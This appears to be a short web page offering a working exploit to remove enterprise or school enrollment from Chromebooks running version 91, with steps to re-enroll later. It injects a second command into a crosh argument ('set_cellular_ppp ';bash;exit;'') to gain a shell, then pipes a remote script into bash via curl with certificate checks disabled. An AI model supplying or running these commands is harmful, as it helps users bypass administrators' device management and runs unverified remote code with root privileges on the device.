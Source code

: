 # Uninrollment for Chromebook

In order for this exploit to work you will need to downgrade to EXACTLY version 91. Downgrade instructions can be found here

This method requires crosh to be unblocked on your chromebook. Crosh can be opened with CTRL+ALT+T If it's blocked by an extension, you can disable it with LTBEEF v91 WILL NOT WORK ON GRUNT BOARDS OR ARM CHROMEBOOKS MAKE SURE YOU HAVE EXACTLY VERSION 91.0.4472.102, NOT VERSION 91.0.4472.167 STEPS: Open crosh (ctrl + alt + t) Type in **set_cellular_ppp ';bash;exit;'** and enter Type in **bash <(curl -k https://coolelectronics.me/unroll)** and enter Wait for the script to finish, then powerwash your chromebook

Steps to Re-Enroll when you turn your chromebook back in at the end of the year:

Enable Devmode (ESC+Power+Reload, ctrl d and enter on recovery screen) Once in chrome, Open crosh (ctrl + alt + t) Type in **shell** Type in **sudo vpd -i RW_VPD -s check_enrollment=1** Powerwash again

Site made by CoolElectronics#4683 UNROLL (U Need Root LoL) acroynm by ULTRA BLUE#1850 and zuh#6098 justinchrm#3399 helped with testing Shroot™ name by phennen#9801 shroot80 script created by OlyB#9420 Kiosk Exploit found by Divide/B3AT Root exploits originally found by Rory McNamara
